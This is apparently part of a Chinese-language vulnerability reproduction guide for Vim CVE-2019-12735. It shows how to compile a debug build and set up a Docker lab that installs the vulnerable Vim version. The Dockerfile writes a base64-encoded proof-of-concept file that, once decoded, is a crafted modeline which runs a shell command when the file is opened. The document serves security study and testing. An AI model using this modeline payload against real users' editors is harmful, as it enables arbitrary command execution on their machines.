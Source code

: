 

#### 下载源码手动编译

```shell
# 下载源码，编译生成符号
# 参考：https://www.unix.com/programming/156665-compile-debug-vim-source-code.html
$ mkdir ~/MyVim
$ cd ~/MyVim
$ sudo apt-get install libncurses5-dev libncursesw5-dev
$ apt-get source vim=2:7.4.1689-3ubuntu1
$ cd src
$ cp Makefile Makefile.orig
$ vim Makefile
$ diff Makefile Makefile.orig
540c540
< CFLAGS = -g
---
> #CFLAGS = -g
908c908
< prefix = ~/MyVim
---
> #prefix = $(HOME)
1852c1852
< #    $(STRIP) $(DEST_BIN)/$(VIMTARGET)
---
>     $(STRIP) $(DEST_BIN)/$(VIMTARGET)
$ cd ..
$ make && make install
$ cd bin
$ gdb ./vim

```



#### Docker复现环境搭建

可以通过Docker快速搭建poc复现环境

```shell
$ ls
Dockerfile
$ cat Dockerfile
From ubuntu:16.04
RUN set -e -x ;\
    apt update ;\
    apt-get install -y vim-runtime=2:7.4.1689-3ubuntu1 ;\
    apt-get install -y vim-common=2:7.4.1689-3ubuntu1 ;\
    apt-get install -y vim=2:7.4.1689-3ubuntu1 ;\
    echo "OiF1bmFtZSAtYXx8IiB2aTpmZW46ZmRtPWV4cHI6ZmRlPWFzc2VydF9mYWlscygic291cmNlXCFcIFwlIik6ZmRsPTA6ZmR0PSIK" | base64 --decode > /root/poc.txt 

$ sudo docker build -t vim-cve-2019-12735 .
$ sudo docker run -it vim-cve-2019-12735 /bin/bash
echo -e "set modeline\nset modelines=5" > ~/.vimrc 
cd root
vim poc.txt


```
